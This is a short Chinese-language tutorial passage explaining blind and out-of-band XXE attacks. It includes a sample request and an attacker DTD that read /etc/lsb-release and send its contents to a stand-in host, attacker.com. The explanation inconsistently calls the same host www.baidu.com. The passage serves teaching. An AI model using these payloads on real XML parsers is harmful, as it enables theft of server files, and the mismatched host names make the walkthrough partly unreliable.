 ### Blind XXE 与 OOB-XXE

一般xxe利用分为两大场景：有回显和无回显。有回显的情况可以直接在页面中看到Payload的执行结果或现象（**带内** [XML外部实体（XXE](https://www.acunetix.com/blog/articles/xml-external-entity-xxe-vulnerabilities/)），即攻击者可以发送带有XXE有效负载的请求并从包含某些数据的Web应用程序获取响应），无回显的情况又称为blind xxe，可以使用外带数据通道提取数据即带外XML外部实体（OOB-XXE）。

以下是攻击者如何利用参数实体使用带外（OOB）技术窃取数据的示例。

request:

```bash
POST http://example.com/xml HTTP/1.1

<!DOCTYPE data [
  <!ENTITY % file SYSTEM
  "file:///etc/lsb-release">
  <!ENTITY % dtd SYSTEM
  "http://attacker.com/evil.dtd">
  %dtd;
]>
<data>&send;</data>

```

攻击者DTD

```xml
<!ENTITY % all "<!ENTITY send SYSTEM 'http://attacker.com/?collect=%file;'>">
%all;

```

XML解析器将首先处理`%file`加载文件的参数实体`/etc/lsb-release`。接下来，XML解析器将在**http://www.baidu.com/evil.dtd**向攻击者的DTD发出请求。

一旦处理了攻击者的DTD，`all%`参数实体将创建一个名为**＆send**的**通用**实体**;** ，其中包含一个包含文件内容的URL（例如http://www.baidu.com/?collect=DISTRIB_ID=Ubuntu …）。最后，一旦URL构造的`&send`; 实体由解析器处理，解析器向攻击者的服务器发出请求。然后，攻击者可以在其结尾处记录请求，并从记录的请求中重建文件的内容。

